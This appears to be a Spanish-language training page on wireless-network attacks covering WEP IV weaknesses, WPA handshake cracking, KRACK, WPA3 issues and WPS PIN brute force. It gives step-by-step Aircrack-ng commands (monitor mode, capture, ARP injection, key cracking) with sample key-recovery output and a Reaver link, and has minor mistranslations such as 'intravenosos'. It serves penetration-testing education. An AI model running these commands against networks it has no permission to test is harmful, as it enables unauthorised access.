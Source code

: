 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ataques de vector de inicialización (IV) y protocolos inalámbricos no seguros

Un atacante puede provocar alguna modificación en el **vector de inicialización** (IV) de un paquete inalámbrico que se cifra durante la transmisión. El objetivo del atacante es obtener mucha información sobre el texto sin formato de un solo paquete y generar otra clave de cifrado que luego pueda usarse para descifrar otros paquetes usando el mismo IV. WEP es susceptible a muchos ataques diferentes, incluidos los ataques intravenosos.

## **Ataques contra WEP**

El WEP  se considera un protocolo inalámbrico obsoleto.

Las claves WEP existen en dos tamaños: claves de 40 bits (5 bytes) y 104 bits (13 bytes). Además, WEP utiliza un IV de 24 bits, que se antepone a la clave precompartida (PSK). Cuando configura un dispositivo de infraestructura inalámbrica con WEP, los IV se envían en texto sin formato.

WEP utiliza RC4 de una manera que permite a un atacante descifrar el PSK con poco esfuerzo. El problema está relacionado con cómo WEP utiliza los IV en cada paquete. Cuando WEP utiliza RC4 para cifrar un paquete, antepone el IV a la clave secreta antes de incluir la clave en RC4.Un atacante obtiene los primeros 3 bytes de una clave supuestamente "secreta" utilizada en cada paquete. Para recuperar el PSK, un atacante sólo necesita recopilar suficientes datos del aire. Un atacante puede acelerar este tipo de ataque simplemente inyectando paquetes ARP (porque la longitud es predecible), lo que le permite recuperar el PSK mucho más rápido. Después de recuperar la clave WEP, el atacante puede usarla para acceder a la red inalámbrica.

Un atacante también puede utilizar el conjunto de herramientas Aircrack-ng para descifrar (recuperar) la WEP PSK.&#x20;

_Uso de Airmon-ng para monitorear una red inalámbrica_

<pre class="language-bash"><code class="lang-bash"><strong>airmon-ng start wlan0 11 
</strong></code></pre>

La interfaz inalámbrica es **wlan0** y el canal inalámbrico seleccionado es **11** . Ahora el atacante quiere escuchar todas las comunicaciones dirigidas al BSSID **08:02:8E:D3:88:82**&#x20;

El comando escribe todo el tráfico en un archivo de captura llamado **omar\_capture.cap** . El atacante sólo tiene que especificar el prefijo del archivo de captura.

<pre><code><strong>airodump-ng -c 11 --bssid 08:02:8E:D3:88:82 -w omar_capture wlan0
</strong></code></pre>

El atacante puede usar Aireplay-ng para escuchar solicitudes ARP y luego reproducirlas o inyectar nuevamente en la red inalámbrica.

_Uso de Aireplay-ng para inyectar paquetes ARP_

<pre><code><strong>aireplay-ng -3 -b 08:02:8E:D3:88:82 -h 00:0F:B5:88:AC:82 wlan0
</strong></code></pre>

El atacante puede utilizar Aircrack-ng para descifrar la PSK WEP.

_Uso de **Aircrack-ng**_ _para descifrar WEP PSK_

<pre><code><strong>aircrack-ng -b 08:02:8E:D3:88:82 omar_capture.cap
</strong></code></pre>

Después de que Aircrack-ng crackea (recupera) la PSK WEP.

_**Ejemplo 5-20**_ _: WEP PSK crackeada (recuperada)_

```
                                 Aircrack-ng 0.9


                                 [00:02:12] Tested 924346 keys (got
99821 IVs)

 KB  depth byte(vote)
 0   0/ 9 12( 15) A9( 25) 47( 22) F7( 12) FE( 22) 1B( 5) 77( 3)
A5( 5) F6( 3) 02( 20)
 1     0/ 8 22( 11) A8( 27) E0( 24) 06( 18) 3B( 26) 4E( 15) E1( 13)
25( 15) 89( 12) E2( 12)
 2     0/ 2 32( 17) A6( 23) 15( 27) 02( 15) 6B( 25) E0( 15) AB( 13)
05( 14) 17( 11) 22( 10)
 3     1/ 5 46( 13) AA( 20) 9B( 20) 4B( 17) 4A( 26) 2B( 15) 4D( 13)
55( 15) 6A( 15) 7A( 15)


                        KEY FOUND! [ 56:7A:15:9E:A8 ]
      Decrypted correctly: 100%
```

## **Ataques contra WPA**

WPA y WPA versión 2 (WPA2) son susceptibles a diferentes vulnerabilidades. WPA versión 3 (WPA3) aborda todas las vulnerabilidades a las que son susceptibles WPA y WPA2, y muchos profesionales inalámbricos recomiendan WPA3 a organizaciones e individuos.

Todas las versiones de WPA admiten diferentes métodos de autenticación, incluido PSK. WPA no es susceptible a los ataques intravenosos que afectan a WEP;,es posible capturar el protocolo de enlace WPA de cuatro vías entre un cliente y un dispositivo de infraestructura inalámbrica y luego aplicar fuerza bruta al WPA PSK.

## **Cómo realizar este ataque utilizando el conjunto de herramientas Aircrack-ng.**

**Paso 1 **_**.**_ El atacante usa Airmon-ng para iniciar la interfaz inalámbrica en modo de monitoreo, usando el  comando **airmon-ng start wlan0 .**

**Paso 2 **_**.**_ Después de localizar la red corp-net, el atacante usa el  comando **airodump-ng** , para capturar todo el tráfico en un archivo de captura llamado  **wpa\_capture** , especificando el canal inalámbrico ( **11** ), el BSSID y la interfaz inalámbrica ( **wlan0** ).

```
airodump-ng --bssid 08:02:8E:D3:88:82 --channel 11 --write wpa_capture wlan0
```

**Paso 3.** El atacante utiliza el  comando **aircrack-ng**  para descifrar el WPA PSK utilizando una lista de palabras.

```
aircrack-ng -w words wpa_capture-02.cap
```

Después de descifrar el WPA PSK ,muestra el WPA PSK .

## **Ataques KRACK**

La explotación de estas vulnerabilidades depende de la configuración específica del dispositivo. Una explotación exitosa podría permitir a atacantes no autenticados reinstalar una clave de integridad o cifrado utilizada anteriormente (ya sea a través del cliente o del punto de acceso, según la vulnerabilidad específica). Cuando una clave utilizada anteriormente se ha reinstalado con éxito (mediante la explotación de las vulnerabilidades reveladas), un atacante puede proceder a capturar el tráfico utilizando la clave reinstalada e intentar descifrar dicho tráfico. Además, el atacante puede intentar falsificar o reproducir tráfico visto anteriormente. Un atacante puede realizar estas actividades manipulando las retransmisiones de mensajes de protocolo de enlace.



## **Vulnerabilidades WPA3**

Varias vulnerabilidades pueden permitir que un atacante realice diferentes ataques de canal lateral, ataques de degradación y condiciones DoS.&#x20;

FragAttacks (que significa ataques de fragmentación y agregación) es otro tipo de vulnerabilidad que puede permitir a un atacante explotar WPA3.&#x20;

### **Ataques de PIN de configuración protegida Wi-Fi (WPS)**

La configuración protegida de Wi-Fi (WPS) es un protocolo que simplifica la implementación de redes inalámbricas. Está implementado para que los usuarios puedan simplemente generar un WPA PSK con poca interacción con un dispositivo inalámbrico. Normalmente, para aprovisionar el dispositivo inalámbrico se utiliza un PIN impreso en el exterior del dispositivo inalámbrico o en la caja que lo acompaña. A la mayoría de las implementaciones no les importa si intenta incorrectamente millones de combinaciones de PIN seguidas, lo que significa que estos dispositivos son susceptibles a ataques de fuerza bruta.

Una herramienta llamada Reaver hace que los ataques WPS sean muy simples y fáciles de ejecutar.&#x20;

{% embed url="https://github.com/t6x/reaver-wps-fork-t6x" %}
